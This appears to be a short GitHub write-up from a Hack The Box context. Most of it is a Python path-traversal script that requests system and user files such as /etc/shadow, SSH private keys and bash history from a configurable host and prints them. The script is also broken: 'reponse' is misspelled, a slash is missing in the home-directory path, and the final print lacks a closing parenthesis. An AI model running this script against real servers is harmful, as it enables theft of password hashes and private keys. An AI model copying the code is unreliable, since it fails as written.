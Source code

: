### Hack The Box - Path Traversal

Whilst the path can change for local file inclusion the majority of the time its the same files your interested in.

ive compiled a small list and added them to a python script that can be edited to fit the requirements.


### path-traversal.py
```python
import requests

host                = "test.htb"                                                    #edit this!
path_to_traverse    = "http://"+host+"/vurn.php?img=../../../../../../../../../"    #edit this!
user                = "admin"                                                       #edit this!
local_files         = ["/etc/passwd","/etc/hosts","/etc/hostname","/etc/crontab","/etc/shadow"]
user_files          = ["/.ssh/id_rsa","/.ssh/authorized_keys","/.bash_history","/.ssh/id_dsa","/.ssh/id_ecdsa","/.ssh/id_ed25519"]

headers = {
    'Host': host,
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Connection': 'close',
    'Upgrade-Insecure-Requests': '1',
}

for file in local_files:
    response = requests.get(path_to_traverse+str(file),headers=headers,verify=False,)
    if reponse.text:
        print (file)
        print (response.text)
        print ("--------------------------------------------------")

for path in user_files:
    response = requests.get(path_to_traverse+"/home"+ user + path ,headers=headers,verify=False,)
    if reponse.text:
        print ("/home/"+ user + path)
        print (response.text)
        print ("--------------------------------------------------"
```
